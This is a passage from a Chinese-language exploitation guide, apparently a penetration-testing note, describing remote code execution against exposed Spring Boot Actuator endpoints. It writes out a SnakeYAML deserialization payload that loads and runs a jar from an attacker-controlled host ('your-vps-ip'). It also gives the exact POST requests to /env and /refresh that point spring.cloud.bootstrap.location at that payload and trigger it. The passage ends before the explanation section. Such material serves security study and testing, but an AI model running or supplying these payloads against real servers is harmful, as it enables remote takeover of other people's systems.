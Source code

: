 

在网站根目录下放置后缀为 `yml` 的文件  `example.yml`，内容如下：

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```



在网站根目录下放置后缀为 `jar` 的文件  `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。



##### 步骤二： 设置 spring.cloud.bootstrap.location 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```



##### 步骤三： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



#### 漏洞原理：
